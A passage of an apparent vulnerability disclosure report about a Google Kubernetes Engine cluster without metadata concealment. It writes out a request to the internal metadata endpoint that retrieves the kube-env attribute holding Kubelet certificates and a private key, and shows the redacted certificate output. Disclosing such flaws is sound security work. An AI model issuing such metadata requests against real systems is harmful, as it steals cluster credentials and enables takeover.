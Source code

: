 Result:
{F289455}

**Metadata concealment** (https://cloud.google.com/kubernetes-engine/docs/how-to/metadata-concealment) is not enabled, so the `kube-env` attribute is available.

Since the image is cropped, I made a new request to: http://metadata.google.internal/computeMetadata/v1beta1/instance/attributes/kube-env?alt=json in order to see the rest of the Kubelet certificate and the Kubelet private key.

Result:
{F289456}

**ca.crt**
```
-----BEGIN CERTIFICATE-----
██████
███████
███████
████████
██████████████
████████
████████
███████
████
██████
███
█████████
████
████
████████
███████
███
-----END CERTIFICATE-----
```

**client.crt**
```
-----BEGIN CERTIFICATE-----
█████
███████
██████
████████
██████████
█████
██████
█████
█████
██████████
███████
█████
████
████
████████
████████
-----END CERTIFICATE-----
```
